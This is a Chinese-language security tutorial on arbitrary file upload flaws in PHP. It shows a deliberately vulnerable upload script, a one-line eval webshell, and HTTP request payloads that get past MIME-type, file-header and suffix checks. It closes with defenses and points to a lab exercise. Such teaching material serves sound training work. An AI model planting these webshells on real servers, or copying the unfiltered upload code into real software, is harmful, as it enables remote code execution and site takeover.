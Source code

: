 # 任意文件上传漏洞

## 1、概述

**定义：** 文件上传漏洞（ Unrestricted File Upload）网站上传功能过滤不严格，导致用户可通过上传文
件对系统造成危害。

> 上传服务端可解析的脚本文件造成远程代码执行、上传超大文件造成拒绝服务、上传Html文件引发XSS等。

**分类：** Web通用漏洞

**风险等级：** 严重/中危

**危害：**上传文件Getshell/上传HTML文件实现XSS攻击、上传超大文件引发拒绝服务等

## 2、漏洞原理+利用

**漏洞示例：** 

```php+HTML
<html>
<form action="http://127.0.0.1/upload.php"
method="POST" enctype="multipart/form-data">
<input name="a" type="file"></input>
<input name="b" ></input>
<input type="submit"></input>
</form>
</html>
<?php
var_dump($_POST['b']);
var_dump($_FILES);
move_uploaded_file($_FILES["a"]["tmp_name"],"
./upload/" . $_FILES["a"]["name"]);
?>
```

> 需要在同目录下创建一个upload文件夹

**漏洞利用：** 

上传一个一句话木马，然后用蚁剑远程连接。

```php
<?php eval($_POST['1'])?>
```

- **通过上传GetShell**。对于服务器直接支持解析的文件格式，只需要上传该后缀的文件即可。这种
  情况下的漏洞也被称作任意文件上传。
- **通过上传实现XSS攻击**。上传HTML文件时，在其中插入XSS代码实现XSS攻击。
- **通过上传实现服务器拒绝服务**。上传超大文件，或当服务器自动执行解压操作时，上传畸形的压
  缩包文件实现拒绝服务。

> 文件上传+环境解析 = WebShell
> 文件上传+任意路径控制 = 文件覆盖（WebShell）
> 文件上传 - 环境解析 - 路径控制 = XSS
> 文件上传-环境解析+无大小限制=拒绝服务

## 3、漏洞绕过

**文件类型限制：** 

```php
<?php
if($_FILES['a']['type'] != "image/gif")
{
    die("Sorry,we only allow uploading GIF images");
}    
?>
```

**绕过：** 

```http
------WebKitFormBoundaryU1lrzLiplUyRrlHJ
Content-Disposition: form-data; name="a"; filename="filename.php"
Content-Type: text/php image/gif
file_content <?php eval($_GET['a'])?>
------WebKitFormBoundaryU1lrzLiplUyRrlHJ
```

**文件头限制：** 

```php
<?php
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$filename = '1.php';
echo finfo_file($finfo,$filename);
?>
```

**绕过：** 

添加一个GIF（也就是可以上传到服务器上的文件类型）的文件头就可以。

```
47494638 39613804 A005F700 00000000   |   GIF89a8
0509080A 09050B0C 0B120E0D 0E0F100F   |
11101211 0E131313 1A151316 16191719   |
```

**文件后缀追加限制：** 

```php
<?php
var_dump($_POST['a']);
var_dump($_FILES);
move_uploaded_file($_FILES["a"]["tmp_name"],"./upload" .$_POST['a'].'.jpg');
?>
```

**绕过：** 

```http
使用%00截断。 要求：PHP版本 < 5.3.4
------WebKitFormBoundaryU1lrzLiplUyRrlHJ
Content-Disposition: form-data; name="a"
1.php0x00
------WebKitFormBoundaryU1lrzLiplUyRrlHJ
```

## 4、漏洞挖掘

一般都会有上传文件的选项，像上传头像照片等。

## 5、漏洞防御

1.严格限制上传文件后缀

2.对于无法限制文件后缀的情况，可以严格限制上传目录（防御../跳出目录），
同时将该目录设置为不可解析（octet-stream）。将其他目录设置为不可写入。

3.使用分站存储上传文件，分站不开启脚本资源解析。

## 6、实验

对应实验6